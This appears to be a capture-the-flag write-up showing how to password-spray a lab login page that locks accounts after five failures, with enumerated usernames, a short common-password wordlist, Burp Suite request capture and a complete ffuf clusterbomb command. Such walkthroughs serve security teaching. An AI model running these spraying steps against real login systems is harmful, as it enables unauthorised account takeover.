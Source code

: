 We are given a website with an account warning of lock out after 5 failed in-corrects attempts

![](https://i.imgur.com/uPqXeEK.png)

Definitely when it comes to situation like this what should come to mind is **password spraying**, we can enumerate usernames through the page description and our own instinct


![](https://i.imgur.com/Wo6lxO1.png)


I managed to find **admin, jeremy and jessamy** because this are the only login attempts that throws a lockout attempt warning


we can then try out a **password spraying** attack using `ffuf`

- Open up `burpsuite` and intercept the request
- copy or save the request to a `TXT` file
- Then replace username field with `FUZZUSER` and password with `FUZZPASS`

![](https://i.imgur.com/t05GYFj.jpg)

- We can create a wordlist of usernames we found and then 5 common passwords we know, since we get a lockout after 5 attempts

```
# common password wordlist

Password
admin
letmein
Password123
qwerty

# Username found wordlist

admin
jeremy
jessamy
```

- Now we can fire up `ffuf` and start our password spraying attack

```bash
# -request : request file to check
# -request-proto : protocol to use along with raw request (default: https)
# -mode : Multi-wordlist operation mode, run --help for more
# -w : specify wordlist
# -fs : filter by size

$ ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w users.txt:FUZZUSER -fs 3376
```

**Note :** You can intercept request with **burpsuite>>send to repeater>>forward request** and then try to check for the size of the response to determine the `-fs` switch in `ffuf` by checking the **Content-Length** of your response

![](https://i.imgur.com/6A30C2d.png)


- Run your script and check the **Size** output to determine which is a valid login

![](https://i.imgur.com/LTIEL7r.png)


